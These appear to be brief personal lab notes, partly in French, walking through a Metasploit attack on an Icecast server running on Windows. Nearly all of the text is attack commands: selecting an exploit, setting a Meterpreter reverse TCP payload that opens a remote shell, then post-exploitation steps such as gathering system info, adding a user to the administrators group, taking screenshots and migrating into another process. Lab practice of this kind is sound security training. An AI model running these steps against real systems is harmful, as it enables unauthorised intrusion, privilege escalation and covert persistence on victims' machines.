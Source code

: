 # lab  

## run icecast en admin sur le windows


	smfconsole  
	search icecast  
	use exploit/xx 
	set payload windows/meterpreter/reverse_tcp  
	set rhost  xx
	set lhost  xx
	
	sysinfo  
	getuid  
	ps  
	
	shell
	#add user
	#add user on admin group 
	net localgroup administrators
	
	screenshot -p /tmp/screen/jpg
	
	getpid
	ps -S notepad.exe
	migrate <id>
	get pid
